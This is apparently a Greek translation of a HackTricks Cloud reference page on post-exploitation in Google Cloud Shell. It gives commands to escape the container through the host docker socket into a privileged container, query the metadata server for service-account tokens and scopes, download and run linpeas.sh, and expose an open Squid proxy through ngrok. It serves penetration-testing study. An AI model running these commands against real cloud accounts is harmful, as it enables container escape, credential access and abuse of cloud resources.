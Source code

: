 # GCP - Εκμετάλλευση μετά την παραβίαση του Cloud Shell

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
* &#x20;αποθετήρια github.

</details>

## Cloud Shell

Για περισσότερες πληροφορίες σχετικά με το Cloud Shell, ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Απόδραση από τον επικάλυμμα εμπορευμάτων

Σημειώστε ότι το Google Cloud Shell τρέχει μέσα σε ένα εμπορευματοκιβώτιο, μπορείτε **εύκολα να δραπετεύσετε στον κεντρικό υπολογιστή** κάνοντας: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Αυτό δεν θεωρείται ευπάθεια από την Google, αλλά σας δίνει μια ευρύτερη εικόνα του τι συμβαίνει σε αυτό το περιβάλλον.

Επιπλέον, παρατηρήστε ότι από τον υπολογιστή μπορείτε να βρείτε ένα τεκμήριο λογαριασμού υπηρεσίας:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Με τις παρακάτω εμβέλειες:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Απαριθμήστε τα μεταδεδομένα με το LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Μετά τη χρήση του [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) με το token του Service Account **δεν ανακαλύφθηκαν δικαιώματα**...

### Χρήση ως Proxy

Εάν θέλετε να χρησιμοποιήσετε την προσωπική σας cloud shell instance ως proxy, πρέπει να εκτελέσετε τις παρακάτω εντολές (ή να τις εισάγετε στο αρχείο .bashrc):
```bash
sudo apt install -y squid
```
Απλά για να το γνωρίζετε, το Squid είναι ένας διακομιστής http προξενητής. Δημιουργήστε ένα αρχείο **squid.conf** με τις παρακάτω ρυθμίσεις:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
αντιγράψτε το αρχείο **squid.conf** στο **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Τέλος, εκτελέστε την υπηρεσία squid:
```bash
sudo service squid start
```
Χρησιμοποιήστε το ngrok για να επιτρέψετε στον διακομιστή proxy να είναι διαθέσιμος από το εξωτερικό:
```bash
./ngrok tcp 3128
```
Μετά την εκτέλεση, αντιγράψτε το URL tcp://. Εάν θέλετε να εκτελέσετε τον διαμεσολαβητή από έναν περιηγητή, συνιστάται να αφαιρέσετε το μέρος tcp:// και τη θύρα και να τοποθετήσετε τη θύρα στο πεδίο θύρας των ρυθμίσεων διαμεσολαβητή του περιηγητή σας (ο squid είναι ένας διαμεσολαβητής http).

Για καλύτερη χρήση κατά την εκκίνηση, το αρχείο .bashrc θα πρέπει να έχει τις παρακάτω γραμμές:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Οι οδηγίες αντιγράφηκαν από [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Ελέγξτε αυτήν τη σελίδα για άλλες παράλογες ιδέες για να εκτελέσετε οποιοδήποτε είδος λογισμικού (βάσεις δεδομένων και ακόμα και Windows) στο Cloud Shell.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
